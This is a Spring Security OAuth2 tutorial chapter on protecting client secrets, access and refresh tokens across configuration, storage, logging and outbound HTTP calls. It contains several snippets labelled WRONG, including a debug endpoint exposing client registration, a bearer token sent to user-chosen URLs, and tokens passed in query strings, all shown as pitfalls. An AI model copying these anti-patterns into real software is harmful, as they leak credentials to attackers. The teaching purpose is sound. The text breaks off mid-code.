


# 23.4. Restricting Access to Client Secrets, Access Tokens, and Refresh Tokens

In **Spring Security OAuth 2.0 / OpenID Connect (OIDC) Client**, three critical credentials often appear together, yet **do not share the same purpose, lifecycle, or allowed consumers**:

- **Client secret**: credential for a *confidential OAuth2 client* to authenticate with the **Authorization Server** using its registered authentication method.
- **Access Token**: credential issued so the **OAuth2 Client can call a Resource Server** within its permitted scope, audience, and lifetime.
- **Refresh Token**: credential issued so the **OAuth2 Client can request new Access Tokens** at the token endpoint when permitted by the grant and provider policy.

An application can configure `oauth2Login()` correctly, verify `state`/`nonce` thoroughly, and use HTTPS, yet still be compromised if the **client secret appears in the frontend bundle**, the **Access Token is sent to a user-specified host**, or **Refresh Tokens are stored in plaintext in a database/log readable by too many people**.

This lesson focuses on **access restriction (*least privilege*) for credentials at every system boundary**—from Spring Boot configuration, application memory, the `OAuth2AuthorizedClient` store, `WebSession`, `WebClient`, databases, and secret managers to logging, backups, rotation, revocation, and compromise response.

> **Core mindset:** do not simply ask "is the token encrypted?", ask **who can read it, who can use it, for what purpose, for how long, through which path, and how it can be revoked**.

## 1. How Do the Three Credentials Differ?

| Characteristic | Client Secret | Access Token | Refresh Token |
|---|---|---|---|
| **Who issues/provisions it** | Typically configured/registered at the Authorization Server or client management system. | Issued by the Authorization Server via a valid grant. | Issued by the Authorization Server if grant/policy permits. |
| **Who uses it** | Backend OAuth2 Client authenticating with the Authorization Server. | OAuth2 Client calling Resource Servers authorized to accept the token. | OAuth2 Client calling the Authorization Server's token endpoint. |
| **Does it represent a user?** | No; it is a client credential. | May carry permissions in a user or client context, depending on grant/token. | Bound to the authorization/grant and client per provider policy. |
| **Sent to the browser?** | **No**, if it is a confidential client secret. | In a server-side BFF: kept on the backend; public SPAs are a separate design case. | In a server-side BFF: kept on the backend; browser public clients require dedicated policies if issued at all. |
| **Sent to Resource Servers?** | **No.** | **Yes**, to the intended APIs, usually as a Bearer token. | **No.** |
| **Typical lifetime?** | Follows the client credential lifecycle, often relatively long. | Usually short, with `expiresAt`. | Can outlive the Access Token, though subject to expiry/revocation/rotation. |
| **Needs rotation/revocation?** | Yes, per credential governance. | Revocable if provider supports it; short lifetimes reduce exposure. | Yes; often sensitive to revocation, rotation, and reuse detection. |
| **If compromised** | Attackers can impersonate the client in flows permitted by the provider. | Anyone holding the Bearer Token can call resources within the token's permissions. | Attackers can mint new Access Tokens if they satisfy any client/device constraints enforced by the provider. |

**No single defense replaces every control layer.** Database encryption does not stop an app from accidentally sending a Bearer token to a malicious URL. TLS does not stop logs from writing raw Refresh Tokens. `HttpOnly` cookies do not protect a client secret bundled into JavaScript.

### 1.1. Tokens Are Credentials, Not Profile Info

An Access Token is typically a *bearer credential*: whoever holds the token can use it within what the API accepts, unless stronger sender-constraining mechanisms apply. It is not "a harmless string containing only user info".

Even when an Access Token is a JWT with an easily decoded payload, **reading its claims does not make the token safe to expose**. The JWT still carries a signature and can be accepted by APIs as a credential. A Refresh Token is sometimes an opaque string with no human-readable structure; its sensitivity is no lower for not being a JWT.

### 1.2. The ID Token Is a Different Artifact

In OIDC, the OP can also issue an **ID Token**. The ID Token serves **identity authentication at the OIDC Client**, not as a replacement for an Access Token when calling APIs. It may contain personal data and still requires protection, though this lesson focuses on restricting access to the three credentials above.

Do not send an ID Token to an API merely because it is available in `OidcUser`; Resource Servers must require an Access Token with the proper audience/scope.

## 2. Threat Model: Where Can Credentials Leak?



Typical leak sources:

1. **Source code/Git:** client secret hard-coded and committed.
2. **CI/CD:** secrets appearing in logs, artifacts, build arguments, echoed scripts, or test fixtures.
3. **Frontend/browser:** confidential client secret or backend Refresh Token placed into JavaScript, local storage, or HTML.
4. **HTTP logs:** `Authorization` headers, `grant_type=refresh_token` request bodies, or token responses logged.
5. **Observability:** APM capturing headers, query strings, raw exceptions, or request/response payloads.
6. **Database/cache:** Access/Refresh Tokens stored in plaintext, overly broad read privileges, or unprotected backups.
7. **Runtime diagnostics:** heap dumps, crash dumps, debuggers, and process environments containing credentials.
8. **Outbound HTTP:** `WebClient` automatically attaching Bearer tokens to unintended APIs/redirects/hosts.
9. **Multi-tenant:** Tenant A's token loaded or used by Tenant B.
10. **Incident operations:** support staff granted read access to raw tokens when only metadata is needed for debugging.

Mitigations must cover **the entire credential path**, not just storage.

## 3. Building a Permission Matrix: Which Component May See What?

A backend-for-frontend (BFF) architecture can generally enforce this matrix:

| Component | Client Secret | Access Token | Refresh Token |
|---|---|---|---|
| **Browser/frontend** | No | Not needed in server-side BFF | No |
| **Spring Boot OAuth2 Client runtime** | Used as required by registration/grant | Used for authorized outbound APIs | Used at token endpoint when refreshing |
| **Authorization Server** | Verified per client-auth method | Issued/evaluated per protocol | Issued and accepted at token endpoint |
| **Resource Server** | No | Receives tokens intended for that API | No |
| **Token store** | Usually should not hold client secrets; a dedicated vault fits better | Stores ciphertext or per protection policy | Stores ciphertext under strict controls |
| **Secret manager** | Stores/delivers credentials to the right workload | May have a separate architecture; not required | May hold encryption keys without seeing tokens |
| **Logs/metrics/traces** | No | No | No |
| **Regular developer/support** | No access to production values | No access to raw tokens | No access to raw tokens |
| **Authorized break-glass operator** | Operates only within incident scope, audited | Only when incident procedure permits | Only when incident procedure permits |

This matrix serves as **guidance for a confidential BFF client**. For public SPA/mobile clients, the browser/device may need to receive Access Tokens per OAuth2 design, yet **a public client cannot keep a client secret confidential** and requires dedicated strategies for XSS, PKCE, sender-constrained tokens, and Refresh Tokens.

### 3.1. "Permission to Read" vs. "Permission to Use"

For example, an operator needs to know that registration `company` is failing with `invalid_client`; they do not need to **view the client secret value**. A service calling an API can use an Access Token via an HTTP client without exposing a public method returning raw tokens to every caller.

Good access control separates:

- **Read secret**: exporting the credential value.
- **Use secret**: allowing the runtime to apply the credential for a narrow action.
- **Rotate/revoke secret**: restricted administrative role.
- **Observe metadata**: inspecting status without reading raw credentials.
- **Audit**: recording who requested/changed/revoked credentials.

Minimizing direct read access is often the primary goal.

## 4. Minimal Design Principles for Every Credential

### 4.1. Least Privilege

Only the component needing the client secret should fetch it; only the service calling `orders-api` should use its Access Token; only the token manager needing a Refresh Token should decrypt it.

Do not grant DB `SELECT *` on token tables to the entire analytics or support team. Do not let a runtime read secrets for every client registration when it operates only one integration.

### 4.2. Need-to-Know and Minimizing Copies

Every time a token is copied to another layer, logging pipeline, queue, or cache, it gains another leak path.

Recommendations:

- Pass tokens through OAuth2 Client and HTTP client **abstractions**, not scattered across domain DTOs.
- Avoid storing Access Tokens on user profile entities merely for "convenience".
- Never send Refresh Tokens over event buses or analytics pipelines.
- Never embed tokens in exception messages.
- Never place client secrets in HTML templates or public configs.
- Never let the application write copies of secrets into temporary files.

### 4.3. Partition by Workload, Principal, Tenant, and Environment

Each **environment** (dev/staging/prod) should use distinct registrations and credentials—avoid sharing one production client secret across environments.

For user tokens, stores must partition by **registration + principal**, plus tenant/issuer where needed. Never rely on unverified emails or query parameters to pick another user's token.

### 4.4. Default Deny and Fail Closed

When a secret fails to decrypt, the token store is unreachable, or the principal does not match:

- Never return another user's token.
- Never fall back to a high-privilege machine token.
- Never keep reusing an expired token indefinitely.
- Never disable TLS/issuer/audience validation.
- Never temporarily log credentials to "diagnose the issue".

Return a controlled error, log safe metadata, and fix the root cause.

## 5. Client Secrets: Restricting from Configuration Onward

`client_secret` authenticates a **confidential OAuth2 Client** to the Authorization Server. It must **never** be treated as public config suitable for browsers or SPAs.

A clean `application.yml`:

```yaml
spring:
  security:
    oauth2:
      client:
        registration:
          company:
            provider: company-oidc
            client-id: ${OIDC_CLIENT_ID}
            client-secret: ${OIDC_CLIENT_SECRET}
            client-authentication-method: client_secret_basic
            authorization-grant-type: authorization_code
            redirect-uri: "{baseUrl}/login/oauth2/code/{registrationId}"
            scope:
              - openid
              - profile
              - orders.read
        provider:
          company-oidc:
            issuer-uri: https://id.example.org/realms/company
```

Meaning:

- `OIDC_CLIENT_ID` may be a non-secret identifier; do not confuse it with the secret.
- `OIDC_CLIENT_SECRET` is a placeholder populated at runtime by the environment/secret manager.
- `client_secret_basic` instructs the runtime to send client authentication to the token endpoint over a secure channel.
- `redirect-uri` and scopes serve the Authorization Code Flow; they do not govern who may read the client secret.
- Never commit real client secret values into YAML.

### 5.1. Environment Variables Are an Injection Mechanism, Not a Vault

One way to supply secrets to Spring Boot:

```text
OIDC_CLIENT_ID     = <configured-client-id>
OIDC_CLIENT_SECRET = <secret-from-approved-secret-manager>
```

The runtime can receive these values from the process environment, protected mounted files, or an organization-approved secret manager integration.

**Environment variables are not inherently invulnerable.** Privileged processes, crash dumps, diagnostic endpoints, or misconfigured monitoring agents can read process environments. Thus you still need:

- Minimal OS/service privileges.
- Workload/host/container isolation.
- Restrictions on who can inspect process environments.
- Never dumping environment variables in startup logs.
- Never exposing environment variables in exceptions or health responses.
- Processes for rotating and reloading credentials when they change.

### 5.2. Do Not Pass Secrets as Command-Line Arguments

Avoid:

```bash
java -jar app.jar \
  --spring.security.oauth2.client.registration.company.client-secret=REAL_SECRET
```

Values can appear in shell history, process listings, logs, or telemetry. A safer approach is using the environment's secret injection mechanism without putting real values into source code or commands pasted into tickets.

Even in CI, avoid printing full command lines containing secrets. Rely on secret stores and CI masking, without assuming masking is infallible.

### 5.3. `.gitignore` Does Not Fix an Already-Committed Secret

If a credential ever appeared in Git history:

- Simply deleting the line from the current file **is not enough**.
- Treat the credential as compromised and **rotate/revoke** it at the provider.
- Audit repository mirrors, build artifacts, and related logs.
- Clean history per organizational policy if required, though history cleanup **does not replace rotation**.

Never put real secrets into unit-test fixtures, READMEs, screenshots, tickets, or emails.

## 6. Spring Boot Actuator, Configuration Metadata, and Operator Permissions

Some environments enable observability endpoints such as:

```text
/actuator/env
/actuator/configprops
/actuator/heapdump
/actuator/loggers
```

They can expose configuration, adjust log levels, or provide diagnostic data. The framework may offer **sanitization mechanisms**, yet you should **never rely solely on masking keys named `password`/`secret`** as a complete security boundary.

Recommendations:

- Never expose configuration/diagnostic endpoints publicly.
- Expose only strictly needed endpoints and protect them with appropriate network controls and authorization.
- Restrict `heapdump`, `threaddump`, remote debuggers, JMX, and admin consoles.
- Block displaying raw `spring.security.oauth2.client.registration.*.client-secret`.
- Configure logging levels sufficient for debugging without printing request/response headers.
- Audit who accesses management endpoints or downloads diagnostic artifacts.

**Heap dumps can contain in-memory tokens and secrets** even when the database is encrypted at rest. Protect and retain dumps as strictly as credentials.

### 6.1. Do Not Build an "Inspect OAuth2 Config" Endpoint

A controller like:

```java
// WRONG: risks exposing the client secret to callers.
@GetMapping("/debug/oauth2-registration")
public ClientRegistration registration() {
    return registrations.findByRegistrationId("company");
}
```

can leak registration/credential details into JSON via serialization or `toString()`.

If observability is needed, return **curated metadata** such as registration alias, grant type, issuer hostname, and connectivity status—never return the full `ClientRegistration` object.

## 7. Confidential Clients vs. Public Clients: Do Not Misapply the Model

OAuth 2.0 distinguishes clients by their ability to keep secrets confidential.

| Client | Ability to Keep a Client Secret | Primary Strategy |
|---|---|---|
| **Spring Boot backend confidential client** | Can protect secrets in runtime/secret manager at an appropriate level. | Client authentication with secret, private key JWT, or mTLS per provider. |
| **Browser-based SPA** | Cannot keep a secret hidden long-term from users/browsers. | Public client, Authorization Code + PKCE, and safe browser token design. |
| **Mobile/desktop native app** | Secrets bundled inside the app cannot be treated as confidential. | Public client, PKCE, and appropriate redirect URIs. |
| **Machine-to-machine backend** | Can protect secrets or dedicated keys/certificates. | Client Credentials with client authentication and least privilege. |

**Never hard-code a client secret into a React/Vue bundle, mobile APK/IPA, or JavaScript source** assuming minification/obfuscation keeps it secret. Users or attackers can inspect the app and extract the value.

### 7.1. PKCE Does Not Protect a Client Secret

PKCE protects the Authorization Code Flow against authorization code interception/injection using `code_verifier` and `code_challenge`. It **does not** make a secret shipped to the browser confidential.

A confidential client can combine PKCE with client authentication if required. A public client uses PKCE and must not pretend to be a confidential client merely by placing a `client_secret` string in frontend configuration.

### 7.2. Client Authentication Is Not API Scope

Even with a valid client secret, an API must still verify that the Access Token has the right audience, scope, and policy. A client secret is not an API key to send to every Resource Server.

An Authorization Server may authenticate the client successfully yet deny a grant/scope by policy. Never use possession of a secret as an excuse to bypass Resource Server authorization.

## 8. Replacing Client Secrets with Stronger Methods When Appropriate

Depending on the Authorization Server and threat model, a confidential client may use:

- `client_secret_basic`: secret sent in HTTP Basic over TLS to the token endpoint.
- `client_secret_post`: secret in the form body; avoid body logging and use only when allowed by provider/policy.
- `private_key_jwt`: client assertion signed with a private key.
- **mTLS client authentication**: authenticating with a configured client certificate.
- Other mechanisms/extensions supported by the Authorization Server.

Using `private_key_jwt` or mTLS **does not eliminate credential protection needs**; it shifts from a string secret to a **private key/certificate or signing key**, requiring equivalent key management, rotation, read restrictions, and runtime protection.

Do not assume changing the `client-authentication-method` string in Spring Boot is all it takes; some methods require configuring HTTP clients, key material, assertion generators, or additional client registration setup.

### 8.1. Sender-Constrained Access Tokens

Standard Bearer tokens can be used by whoever holds the token if the API accepts it. Some systems support **sender-constrained tokens** such as mTLS-bound access tokens or DPoP-bound tokens per profile.

When supported and properly configured, the token is bound to a client key/certificate, limiting the impact if only the token string is copied.

However:

- Not every provider or API supports the same mechanism.
- Do not assume Spring Security enables sender constraints automatically just because HTTPS is used.
- If an attacker compromises both the runtime and the key, protection is limited.
- Scope/audience checks and storage protections remain essential.

This is an additional layer of defense, not a substitute for least privilege.

## 9. Access Tokens: Send Only to Authorized Resource Servers

In Spring Security OAuth2 Client, the Access Token typically resides in `OAuth2AuthorizedClient.getAccessToken()`. It is not a secret for authenticating the application at the token endpoint.

Correct flow:

```text
Spring OAuth2 Client  --Bearer Access Token--> Intended Resource Server
Spring OAuth2 Client  --Refresh Token-------> Authorization Server token endpoint
Spring OAuth2 Client  --Client Secret-------> Token endpoint/AS client authentication
```

**Never swap credential roles.** Specifically, never send a Refresh Token in an API `Bearer` header; never use an Access Token to log in as a confidential client; never send a client secret to a business endpoint.

### 9.1. Scopes and Audience Limit Usage Rights

An Access Token may carry the scope:

```text
orders.read
```

and audience/resource targeting `orders-api`. The Resource Server must verify the token and enforce actual permissions.

If a token is meant only for `orders-api`, do not send the same token to `billing-api` hoping it will be accepted. If the Authorization Server supports token exchange or resource indicators, request a token scoped to the target API per contract.

For user tokens, access can also be constrained by tenant, resource ownership, and account status. **Holding an Access Token does not mean permission to read all data.**

### 9.2. Short Token TTLs Shrink the Risk Window

With Bearer Access Tokens, short lifetimes limit how long an attacker can abuse a stolen token. However, overly short TTLs combined with uncoordinated refresh logic can create load spikes and errors.

Balanced design:

- Access Token TTL aligned with Authorization Server policy.
- Refresh Tokens stored securely, with rotation/revocation where appropriate.
- Clock synchronization and sensible `clockSkew`.
- Never keep stale tokens in a global cache after the manager refreshes them.
- Handle revocation/account disabling if the product requires terminating access before expiry.

## 10. Using WebClient Safely: Do Not Attach Default Tokens to Every URL

In Spring Security's Servlet stack, `ServletOAuth2AuthorizedClientExchangeFilterFunction` helps `WebClient` attach Access Tokens. In WebFlux reactive apps, the counterpart is `ServerOAuth2AuthorizedClientExchangeFilterFunction`.

A dangerous trap is **configuring a default authorized client** on a shared `WebClient` used across multiple endpoints and hosts.

Risky example:

```text
One shared WebClient:
  GET https://api.orders.example.org/api/orders    (needs user token)
  GET https://status.example.net/status            (no token needed)
  GET https://external.example.net/data            (external host)
```

If the filter automatically attaches a Bearer token to every request, the second or third request can leak the token.

### 10.1. Selecting an Authorized Client Per Request

Servlet/WebClient example:

```java
import org.springframework.security.oauth2.client.OAuth2AuthorizedClient;
import org.springframework.security.oauth2.client.web.reactive.function.client.ServletOAuth2AuthorizedClientExchangeFilterFunction;
import org.springframework.web.reactive.function.client.WebClient;

public final class OrdersApiClient {

    private final WebClient ordersWebClient;

    public OrdersApiClient(WebClient ordersWebClient) {
        this.ordersWebClient = ordersWebClient;
    }

    public reactor.core.publisher.Mono<String> orders(
            OAuth2AuthorizedClient authorizedClient) {

        return ordersWebClient.get()
            .uri("/api/orders")
            .attributes(
                ServletOAuth2AuthorizedClientExchangeFilterFunction
                    .oauth2AuthorizedClient(authorizedClient)
            )
            .retrieve()
            .bodyToMono(String.class);
    }
}
```

In this example, `ordersWebClient` is configured with a fixed base URL:

```java
WebClient.builder()
    .baseUrl("https://api.orders.example.org")
    .apply(oauth2.oauth2Configuration())
    .build();
```

In the second snippet, `oauth2` is a filter function configured with the proper authorized client repository/manager; it is an illustrative fragment, not a standalone complete class.

**Never put tokens in `WebClient.builder().defaultHeader(...)` on a singleton `WebClient` shared across users.** Each outbound request must select the right token for its context.

### 10.2. WebFlux Uses a Different Filter Than Servlet

If the application is a WebFlux server, use:

```java
ServerOAuth2AuthorizedClientExchangeFilterFunction
    .oauth2AuthorizedClient(authorizedClient)
```

along with the corresponding reactive repositories/managers.

Do not confuse `ServletOAuth2AuthorizedClientExchangeFilterFunction` and `ServerOAuth2AuthorizedClientExchangeFilterFunction` merely because both work with `WebClient`. Use the one matching your application stack so principal/request context is not lost.

### 10.3. Never Let Clients Specify Arbitrary URLs

Anti-pattern:

```java
// WRONG: user can choose which host receives the token.
webClient.get()
    .uri(userSuppliedAbsoluteUrl)
    .attributes(oauth2AuthorizedClient(authorizedClient))
    .retrieve();
```

If the URL points to an attacker's server or an internal metadata service, this becomes **SSRF combined with token exfiltration**.

Controls needed:

- Fixed base URLs per API.
- Domain/origin allowlists, controlling absolute URI overrides.
- Never forwarding `Authorization` headers across unauthorized cross-origin redirects.
- HTTPS with certificate/hostname verification.
- Guarding against DNS rebinding, proxies, and internal IPs if dynamic URLs are ever permitted.
- Never reusing an Access Token intended for API A on API B when audiences differ.

### 10.4. Do Not Pass Tokens in URLs

Avoid:

```http
GET /api/orders?access_token=<bearer-token>
```

URLs can be logged by reverse proxies, browser history, analytics, and application logs. For Bearer tokens, the standard approach is **`Authorization: Bearer ...`** per API contract and RFC 6750.

## 11. Refresh Tokens: Stricter Read and Usage Restrictions

A Refresh Token can outlive Access Tokens and mint new Access Tokens. Thus in many systems, the impact of a leaked Refresh Token **lasts much longer**.

Restrict tightly:

- Only the backend OAuth2 Client / authorized client manager may access the value to refresh.
- Never return Refresh Tokens via controllers, DTOs, or frontend APIs in a BFF.
- Never send Refresh Tokens to Resource Servers.
- Never log `grant_type=refresh_token` token request bodies.
- Never publish Refresh Tokens to message brokers or domain entities without an explicit required design.
- Encrypt and strictly control access in persistent stores.
- Implement rotation, revocation, cleanup, and offboarding aligned with the provider.
- Define explicit policy for user logout and consent withdrawal.

### 11.1. Not Every Grant Issues a Refresh Token

`OAuth2AuthorizedClient.getRefreshToken()` can return `null`. For instance, `client_credentials` typically does not use Refresh Tokens and instead obtains a new Access Token via the same grant.

Do not design a custom token store requiring the Refresh Token column to always be non-null, and never fabricate a Refresh Token from an Access Token or ID Token.

### 11.2. Refresh Token Rotation

A provider may enforce rotation:

```text
Initial:  Access Token A1 + Refresh Token R1
Refresh:  R1 -> Access Token A2 + Refresh Token R2
Refresh:  R2 -> Access Token A3 + Refresh Token R3
```

Once `R2` is issued, `R1` may be invalidated. If another instance still holds `R1` and reuses it, the OP may return `invalid_grant` or trigger **reuse detection**. Depending on the provider, the entire token family may be revoked.

Save updated results **atomically**: the new Access Token, new Refresh Token (if issued), and related metadata must update as one consistent state. Never save `A2` while leaving `R1` due to a partial transaction failure.

### 11.3. A Refresh Token Does Not Guarantee Permanent Access

Even when a Refresh Token remains in the DB, the Authorization Server may reject it because:

- Consent was revoked.
- The account was disabled.
- Client secrets/credentials changed.
- The Refresh Token expired.
- Session/provider policy changed.
- The token family was revoked after reuse detection.
- The client registration/scope is no longer valid.

Do not retry the same Refresh Token infinitely upon `invalid_grant`. Clean up the failed authorized client and trigger reauthorization per policy.

## 12. The `OAuth2AuthorizedClient` Store in Spring Security

After OAuth2/OIDC login or authorization, Spring Security can keep Access/Refresh Tokens in `OAuth2AuthorizedClient`.

Two core extension points in Servlet:

| Interface | Function |
|---|---|
| `OAuth2AuthorizedClientRepository` | Load/save/remove within the context of `Authentication`, `HttpServletRequest`, and `HttpServletResponse`. |
| `OAuth2AuthorizedClientService` | Load/save/remove by client registration and principal, independent of a direct HTTP request. |

Common implementations:

- `HttpSessionOAuth2AuthorizedClientRepository`.
- `AuthenticatedPrincipalOAuth2AuthorizedClientRepository`.
- `InMemoryOAuth2AuthorizedClientService`.
- `JdbcOAuth2AuthorizedClientService`.
- Custom implementations with dedicated database/Redis/encryption/tenant policies.

In WebFlux, the counterparts are `ServerOAuth2AuthorizedClientRepository` and `ReactiveOAuth2AuthorizedClientService`; never mix the two stacks.

### 12.1. Using JDBC Does Not Mean Tokens Are Encrypted

`JdbcOAuth2AuthorizedClientService` persists authorized clients to a database using the framework schema. However, **never assume** the implementation automatically provides:

- Application-level encryption with KMS.
- Tenant-specific isolation across all app models.
- Data encryption key rotation.
- Token retention/deletion per product policy.
- Distributed locking for safe refreshes.
- Revocation at the Authorization Server.
- Role-based authorization over admin/support DB access.

Protect the DB with network isolation, TLS, minimal DB accounts, storage encryption, and encrypted backups; when your threat model requires defending against DB read exposure, consider **application-level encryption** or a suitable custom store.

### 12.2. What Are the Risks of an In-Memory Service?

`InMemoryOAuth2AuthorizedClientService` keeps tokens in process memory:

- Not durable across restarts.
- Each instance has its own separate store.
- Heap dumps or remote debuggers can still expose raw tokens.
- Does not solve token persistence across load-balanced nodes.
- Unsuitable if the product must keep offline delegation alive across restarts.

In-memory can suffice for simple setups, but "not writing to a DB" does not mean "tokens cannot leak". Credentials still reside in memory whenever needed.

### 12.3. What Are the Limits of HTTP Session Storage?

`HttpSessionOAuth2AuthorizedClientRepository` can place authorized clients inside the session. In that model:

- Token protection depends on the session store.
- Session serialization/replication can create copies of tokens.
- Session dumps/backups may contain credentials.
- A stolen session cookie lets an attacker use app capabilities within that session, even though the cookie lacks raw tokens.
- Session timeout can drop the authorized client without revoking tokens at the OP by default.

Do not treat `HttpOnly` cookies as an encryption mechanism for Access/Refresh Tokens inside a server-side session store.

## 13. Distinguishing the Three Storage Types in OAuth2 Login

During an OIDC login flow, at least three state types exist:

| State | Typically Managed By | Purpose |
|---|---|---|
| **Authorization Request** | `OAuth2AuthorizationRequestRepository`, usually session | Holds `state`, PKCE/nonce context to correlate the callback. |
| **SecurityContext** | `SecurityContextRepository` or session mechanism | Identifies which user a browser request is logged in as. |
| **Authorized Client** | `OAuth2AuthorizedClientRepository`/Service | Holds Access Token and Refresh Token for the client/principal. |

These components cannot substitute for one another. A database holding a Refresh Token does not automatically recreate a browser's `SecurityContext` after session expiry; an active session does not guarantee the Access Token is unexpired.

### 13.1. Why Does This Distinction Matter When Restricting Access?

- Session store operators might see session attributes depending on implementation.
- DBAs might have read access to the token store.
- The browser holds a session cookie, yet must never read server-side Access/Refresh Tokens.
- The login callback needs authorization request/`state`, not a public endpoint returning Refresh Tokens.
- Resource Servers only need the right Access Token, not the client's session cookie.

Grant access according to **each specific data type** instead of dumping all state into one database with shared read permissions.

## 14. Protecting Tokens at Rest

A storage model for authorized clients might look like:

```text
(tenant_id, registration_id, principal_key)
       |
       v
Encrypted Access Token
Encrypted Refresh Token
issued_at / expires_at / scopes
version / updated_at
```

Illustrative **custom application schema**—**not** the default `JdbcOAuth2AuthorizedClientService` schema:

```sql
CREATE TABLE app_authorized_client (
    tenant_id             VARCHAR(128) NOT NULL,
    registration_id       VARCHAR(128) NOT NULL,
    principal_key         VARCHAR(512) NOT NULL,
    access_ciphertext     TEXT NOT NULL,
    access_issued_at      TIMESTAMP NOT NULL,
    access_expires_at     TIMESTAMP NOT NULL,
    refresh_ciphertext    TEXT,
    refresh_issued_at     TIMESTAMP,
    refresh_expires_at    TIMESTAMP,
    token_version         BIGINT NOT NULL DEFAULT 0,
    updated_at            TIMESTAMP NOT NULL,
    PRIMARY KEY (tenant_id, registration_id, principal_key)
);
```

Schema decisions must account for DBMS behavior, timestamp/timezone precision, ciphertext length limits, and retention policies. Token values **should never be left in plaintext just to make debugging easier**.

### 14.1. Encryption at Rest and TDE Have Limits

Database Transparent Data Encryption (TDE) or disk encryption protects data if physical media/volumes are stolen under certain threat models. However, a DB user with `SELECT` privileges generally still reads plaintext after the DB engine decrypts it.

To reduce exposure from unauthorized DB reads, consider **application-layer token encryption** before persistence. Then the DB stores ciphertext instead of raw tokens.

Never claim that "TDE is enabled so tokens are safe from DBAs, SQL injection, or DB dumps". Those threats must be evaluated separately.

### 14.2. Reversible Encryption, Not Hashing

Access Tokens and Refresh Tokens must be recoverable to send to APIs/token endpoints, so one-way hashing cannot be used if the app needs to reuse them.

Base64 is not encryption either; ciphertext must be produced by a vetted cryptographic mechanism.

A solid design can use:

- AEAD such as AES-GCM or an organization-approved algorithm.
- Data keys protected by KMS/envelope encryption.
- Nonces/IVs meeting algorithm requirements without unsafe reuse.
- Associated Data (AAD) bound to `tenantId`, `registrationId`, and `principalKey` where appropriate to prevent ciphertext swapping across rows.
- Versioned ciphertext formats to support key rotation.
- Failing closed on decryption errors.

Never roll your own cipher, store keys next to ciphertext in the same table with shared read access, or fall back to plaintext when decryption fails.

### 14.3. Keep Key Management Separate from the Database

If the DB holds both token ciphertext **and** decryption keys accessible under the same full-read credential, protection against DB leaks drops sharply.

Illustrative architecture:



KMS and application IAM should separate permissions:

- Permission to **read DB ciphertext**.
- Permission to **use decryption keys**.
- Permission to **rotate/disable keys**.
- Permission to **administer KMS policies**.

Separating these permissions prevents any single role from holding excessive privilege.

## 15. Token Encryption Does Not Replace Application Authorization

`OAuth2AuthorizedClientService` exposes:

```java
<T extends OAuth2AuthorizedClient> T loadAuthorizedClient(
    String clientRegistrationId,
    String principalName
);
```

The fact that a method accepts a `principalName` parameter **does not mean every caller may supply an arbitrary `principalName`**.

Wrong:

```text
GET /admin/authorized-client?principal=alice
  -> loadAuthorizedClient("company", "alice")
  -> returns Alice's Access Token
```

Better:

- Derive the principal from the verified `Authentication`.
- Verify the user is permitted to use that registration/resource.
- Scope tenant from trusted context, never from an untrusted query parameter.
- Never expose a public endpoint returning raw tokens.
- Enforce key/tenant isolation at the authorized-client store layer.
- For admin actions, allow only metadata inspection or revocation under explicit roles.

**Encryption at rest does not prevent IDOR bugs** if the application decrypts and returns tokens to the wrong user.

### 15.1. Principal and Tenant Keys

With two tenants sharing the same local user ID:

```text
tenant alpha, principal user-123
tenant beta,  principal user-123
```

If the token store uses a plain `(registrationId, principalName)` key and both tenants share a registration, records can collide.

Architecture-dependent solutions:

- Encode trusted tenant context in the principal/registration identifier.
- Enforce tenant partitioning inside every load/save/remove of a custom store.
- Separate client registrations or client identities if policy requires.
- Database row-level security with trusted tenant context, if properly implemented.
- Avoid using email as a long-term identity key; link OIDC identities via verified `(issuer, sub)`.

**Adding a tenant column without enforcing it in queries provides zero isolation.**

### 15.2. Never Let Users Freely Pick Registration IDs

If an application defines `company-admin`, `company-user`, and `reports-machine` registrations, a web user must never be allowed to pass:

```text
?registrationId=reports-machine
```

and cause the service to fetch a high-privilege machine token. Registration selection must be governed by policy and business logic, never an arbitrary browser string.

## 16. Spring Boot Example: Observe Metadata, Never Return Tokens

Suppose a Servlet app configures `oauth2Login()` and `oauth2Client()`. A controller can receive an authorized client for a fixed registration:

```java
import java.time.Instant;
import java.util.Map;

import org.springframework.security.oauth2.client.OAuth2AuthorizedClient;
import org.springframework.security.oauth2.client.annotation.RegisteredOAuth2AuthorizedClient;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class ClientStatusController {

    @GetMapping("/internal/oauth2/client-status")
    public Map<String, Object> clientStatus(
            @RegisteredOAuth2AuthorizedClient("company")
            OAuth2AuthorizedClient authorizedClient) {

        Instant expiry = authorizedClient
            .getAccessToken().getExpiresAt();

        return Map.of(
            "registrationId",
            authorizedClient.getClientRegistration().getRegistrationId(),
            "accessTokenExpiresAt",
